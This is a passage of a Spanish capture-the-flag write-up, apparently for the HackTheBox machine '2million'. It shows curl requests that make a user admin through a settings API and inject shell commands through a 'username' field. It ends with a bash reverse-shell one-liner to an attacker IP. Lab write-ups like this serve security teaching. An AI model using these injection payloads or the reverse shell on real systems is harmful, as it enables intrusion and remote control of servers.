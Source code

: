 haciendo ensayo y error llegamos a cargar la data que necesita

```bash
$ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=58auj4sq06rp88tngeg8gb38tk" --header "Content-Type: application/json" --data '{"email":"marcomania@s4vitar.com", "is_admin": 1}' | jq 
{
  "id": 14,
  "username": "marcomania",
  "is_admin": 1
}
```

Ahora nuestro usuario es admin.
```bash
$ curl -s -X GET "http://2million.htb/api/v1/admin/auth" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" | jq
{
  "message": true
}
```

# Ataque

Regresemos a `/api/v1/admin/vpn/generate`  ahora que tenemos permisos.
```bash
$ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" --header "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```
Nos solicita un `username` para generar la vpn , le ingresamos un usuario `test` y nos genera una VPN correctamente.
```bash
$ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" --header "Content-Type: application/json" --data '{"username":"test"}'
```

vamos a inyectar codigo usando el parametro `username`
```bash
$ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=qhtpkbilmv3ps0tunk2oruq748" --header "Content-Type: application/json" --data '{"username":"test;whoami;"}'
www-data
```

# Reverse Shell

Vamos a crear el payload con nuestra IP
```bash 
$ bash -i >& /dev/tcp/10.10.14.7/1234 0>&1
```
